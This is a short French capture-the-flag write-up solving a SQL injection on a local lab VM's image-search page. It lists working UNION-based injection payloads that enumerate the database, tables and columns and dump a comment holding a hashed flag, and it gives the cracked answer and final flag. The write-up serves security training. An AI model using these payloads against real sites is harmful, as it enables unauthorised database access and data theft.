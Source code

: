 Résolution:

Pour savoir si une attaque SQL est possible (c'est a dire utiliser des commandes pour chercher des informations dans la base de donné) depuis le front, j'ai utilisé la commende suivante
1 OR 1=1

Ca affiche toutes les images d'un coup a cette adresse:
http://192.168.56.101/index.php?page=searchimg
On remarque une image qui a pour titre "Hack me ?"

Ensuite la commande suivante nous donne le nom de deux bases de données:
1 UNION select 1, database()

Pour avoir le nom de la table contenant les informations qui nous interesse on peut faire la commande suivante:
1 UNION select 1, table_name from Information_schema.tables where table_schema = database()
La table qui nous interesse est "list_image"

Pour avoir le nom des colones de la table "list_image", on peut faire une recherche parmis les résultats de la commande suivante:
1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM information_schema.columns
On obtient id, url, title et comment.

Si on veut par exemple la colonne comment, on peut utiliser cette commande:
1 UNION SELECT id, comment FROM list_images

on trouve ce message: 
"If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46"
Ce qui décripté donne FortyTwo. Puis en minuscule donne fortytwo ce qui donne le flag en sha256

10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
